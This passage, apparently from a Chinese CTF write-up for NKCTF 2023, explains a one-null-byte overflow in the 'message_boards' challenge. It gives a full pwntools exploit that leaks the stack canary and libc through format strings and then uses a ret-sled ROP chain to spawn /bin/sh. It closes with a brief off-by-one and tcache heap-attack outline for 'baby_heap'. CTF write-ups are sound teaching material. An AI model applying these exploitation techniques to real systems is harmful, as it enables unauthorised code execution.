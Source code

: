 程序本身只存在一字节null的溢出，会修改rbp寄存器最低一字节。通过leave指令进一步影响到rsp，ret的时候返回rsp处地址有可能落在输入变量的buf内，于是可以在buf上填充ret gadget一直滑到进行攻击的rop链上。

[message_boards](/assets/binary/2023-04-13-NKCTF23/message_boards.zip)

```python
from pwn import*
from LibcSearcher import*

context.log_level = "debug"
context.arch = "amd64"

io = process("./nkctf_message_boards")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF("./nkctf_message_boards")

#gdb.attach(io,'b *0x401340\n b main')
io.recvuntil("What is your name: ")
io.sendline(b'%41$p')
io.recv(7)
canary = int(io.recv(18),16)
success("canary :"+hex(canary))

io.recvuntil("What are your comments and suggestions for the NKCTF: ")
main_addr = elf.sym['main']
ret_addr = 0x40101a
payload = p64(ret_addr)*30+p64(main_addr)+p64(canary)
io.send(payload)


io.recvuntil("What is your name: ")
io.sendline(b'%25$p')
stderr_addr = int(io.recvuntil("What",drop = True)[-14:],16) 
success("stderr_addr :"+hex(stderr_addr))
# obj = LibcSearcher("_IO_2_1_stderr_",addr)
libc_addr = stderr_addr - libc.sym['_IO_2_1_stderr_'] # obj.dump("_IO_2_1_stderr_")
success("libc_addr :"+hex(libc_addr))
system_addr = libc_addr + libc.sym['system']
rdi_addr = 0x401413
binsh_addr = libc_addr + next(libc.search(b"/bin/sh"))
payload = p64(ret_addr)*28+p64(rdi_addr)+p64(binsh_addr)+p64(system_addr)+p64(canary)
io.sendline(payload)

io.interactive()
```

# baby_heap

off by one漏洞，可以构造overlap的chunk，然后将其释放到unsortedbin上，一来可以直接泄露libc基址，二来可以利用unsortedbin的split机制在bin上获得可控制chunk。

由于tcache的存在，split后的chunk从unsorted bin上取下的时候会附带(e->next)>>12值，可以利用到之后的tcache attack上。
